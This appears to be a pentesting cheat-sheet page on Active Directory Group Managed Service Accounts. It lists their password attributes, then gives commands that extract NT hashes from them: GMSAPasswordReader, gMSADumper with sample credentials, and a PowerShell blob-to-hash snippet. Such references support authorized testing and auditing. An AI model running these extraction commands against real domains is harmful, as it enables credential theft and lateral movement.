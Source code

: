 # GSMA Passwords

{% hint style="info" %}
User accounts created to be used as service accounts rarely have their password changed. Group Managed Service Accounts \(GMSAs\) provide a better approach \(starting in the Windows 2012 timeframe\). The password is managed by AD and automatically changed.
{% endhint %}

## **GMSA Attributes in the Active Directory**

* **msDS-GroupMSAMembership** \(PrincipalsAllowedToRetrieveManagedPassword\) - stores the security principals that can access the GMSA password.
* **msds-ManagedPassword** - This attribute contains a BLOB with password information for group-managed service accounts.
* **msDS-ManagedPasswordId** - This constructed attribute contains the key identifier for the current managed password data for a group MSA.
* **msDS-ManagedPasswordInterval** - This attribute is used to retrieve the number of days before a managed password is automatically changed for a group MSA.



### **Extract NT hash from the Active Directory**

GMSAPasswordReader \(C\#\)

```text
# https://github.com/rvazarkar/GMSAPasswordReader
GMSAPasswordReader.exe --accountname SVC_SERVICE_ACCOUNT
```

[gMSADumper \(Python\)](https://github.com/micahvandeusen/gMSADumper)

```text
# https://github.com/micahvandeusen/gMSADumper
python3 gMSADumper.py -u User -p Password1 -d domain.local
```

Active Directory Powershell

```text
$gmsa =  Get-ADServiceAccount -Identity 'SVC_SERVICE_ACCOUNT' -Properties 'msDS-ManagedPassword'
$blob = $gmsa.'msDS-ManagedPassword'
$mp = ConvertFrom-ADManagedPasswordBlob $blob
$hash1 =  ConvertTo-NTHash -Password $mp.SecureCurrentPassword
```

[gMSA\_Permissions\_Collection.ps1](https://gist.github.com/kdejoyce/f0b8f521c426d04740148d72f5ea3f6f#file-gmsa_permissions_collection-ps1) based on Active Directory PowerShell module














